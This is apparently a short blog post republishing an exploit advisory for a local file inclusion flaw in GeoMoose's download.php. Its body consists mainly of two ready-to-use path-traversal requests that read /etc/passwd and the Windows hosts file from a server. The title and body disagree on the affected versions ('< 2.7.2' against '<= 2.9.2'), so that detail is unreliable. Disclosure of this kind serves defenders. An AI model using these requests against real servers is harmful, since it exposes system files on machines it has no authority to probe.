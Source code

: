 Title: GeoMoose < 2.7.2 LFI
Author: Sander
Date: 2017-03-04 01:29
Slug: geomoose-lfi
Category: exploit
Tags: cve
Summary: vulnerability for GeoMoose


```text
# Exploit Title: GeoMoose <= 2.9.2 Local File Inclusion
# Exploit Author: Sander
# Date: 2017-03-4
# Version: <= 2.9.2
# Vendor Homepage: geomoose.org
# Reported: 4-3-2017
# Vendor response: http://osgeo-org.1560.x6.nabble.com/Geomoose-users-GeoMoose-Security-Issue-td5315873.html
# Software Link: https://github.com/geomoose/geomoose
# Tested on: Windows/Linux
# CVE : none

/php/download.php?id=foo/.&ext=/../../../../../../../etc/passwd
/php/download.php?id=foo/.&ext=/../../../../../../../WINDOWS/system32/drivers/etc/hosts
```
